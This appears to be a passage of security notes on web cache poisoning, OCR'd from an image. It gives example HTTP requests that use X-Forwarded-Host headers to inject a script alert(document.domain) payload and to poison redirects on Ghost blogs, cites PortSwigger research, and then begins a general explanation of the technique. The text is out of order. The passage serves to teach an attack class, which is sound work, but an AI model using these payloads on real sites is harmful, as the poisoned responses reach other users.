 ```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com
```
The response is
```
HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```

6. Hidden Route Poisoning
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: evil
```
The response is
```
HTTP/1.1 302 Found
Location: https://ghost.org/fail/
```
When a user first registers a blog with Ghost, it issues them with a unique subdomain under ghost.io. Once a
blog is up and running, the user can define an arbitrary custom domain like blog.cloudflare.com. If a user has
defined a custom domain, their ghost.io subdomain will simply redirect to it:
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io
```
The response is
```
HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```

Reference:
- [Portswigger](https://portswigger.net/research/practical-web-cache-poisoning)




# Web Cache Poisoning

## General

{% hint style="info" %}
Web cache poisoning is an advanced technique whereby an attacker exploits the behavior of a web server and cache so that a harmful HTTP response is served to other users.

Fundamentally, web cache poisoning involves two phases. First, the attacker must work out how to elicit a response from the back-end server that inadvertently contains some kind of dangerous payload. Once successful, they need to make sure that their response is cached and subsequently served to the intended victims.
